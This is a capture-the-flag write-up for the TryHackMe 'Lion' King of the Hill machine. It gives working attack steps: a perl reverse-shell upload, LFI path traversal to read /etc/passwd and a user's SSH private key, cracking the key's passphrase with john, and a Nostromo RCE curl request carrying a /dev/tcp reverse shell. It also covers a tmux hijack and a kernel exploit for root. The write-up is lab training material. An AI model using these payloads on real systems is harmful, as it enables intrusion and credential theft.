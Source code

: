 # Tryhackme King Of The Hill(koth) Lion
```
writeup for lion machine over at https://tryhackme.com/games/koth

I wont be showing you where the flags are located but they are really easy to find so it shouldn't be too much of a problem
```

# Foothold

## /upload directory as alex
```
we can see there is a /upload directory at port 80 once we dir bust it

uploading a normal php reverse shell is not gonna work in this case

we need to upload a perl reverse shell(https://raw.githubusercontent.com/pentestmonkey/perl-reverse-shell/master/perl-reverse-shell.pl)

change the ip and port and start listening

once you upload the perl reverse shell you will get a shell as alex.

for some reason in the source code it executes the script uploaded with perl.
```

![alt text](https://raw.githubusercontent.com/ozzzozo/writeups/main/thm/koth/Lion/img.png)

## LFI(Local File Inclusion) as gloria
```
there is a LFI at port 5555 with param ?page

we can get the users list by looking in /etc/passwd

http://machineip:5555/?page=../../../../../../../../etc/passwd		

we see there are alex,marty,gloria

out of those 3 users we can get gloria's id_rsa to connect via ssh

http://machineip:5555/?page=../../../../../../../../home/gloria/.ssh/id_rsa

save it to a file
```
```	
chmod 400 id_rsa
ssh2john id_rsa > john
john -w=/usr/share/wordlists/rockyou.txt john; 
```
```
to crack id_rsa password with john
we get passpharse 'dance' for gloria's id_rsa

now we use the id_rsa with passpharse 'dance'

ssh -i id_rsa gloria@machineip -p 1337
```

## Nostromo 1.9.6 vulns - Remote Code Execution as gloria
```
Script:
	https://www.exploit-db.com/exploits/47837

Metasploit:
	exploit/multi/http/nostromo_code_exec

Manual method:
	nc -lnvp someport
	curl -s -X POST 'http://machineip:8080/.%0d./.%0d./.%0d./bin/sh' -d '/bin/bash -c "/bin/bash -i >& /dev/tcp/yourip/someport 0>&1"' 

can't cd into folders but can ls and cat - we need to get in via ssh
ls /home; to get user names

cat /home/gloria/.ssh/id_rsa; to get gloria's id_rsa for ssh

```
```
chmod 400 id_rsa
ssh2john id_rsa > john
john -w=/usr/share/wordlists/rockyou.txt john; to crack id_rsa password with john
```
```
we get passpharse 'dance' for gloria's id_rsa

now we use the id_rsa with passpharse 'dance'

ssh -i id_rsa gloria@machineip -p 1337 
```

# Getting root
```
we run linpeas to find the following
```

## tmux (gloria only?)
```
/usr/bin/tmux -S /.dev/session attach -t 0
```

## Kernel exploit
```
wget https://github.com/gugronnier/CVE-2017-16995/blob/master/exploit-poc-pentest.c
gcc --static exploit-poc-pentest.c -o exploit-poc-pentest
chmod +x ./exploit-poc-pentest 

upload the binary to the machine and run it to get root.
```

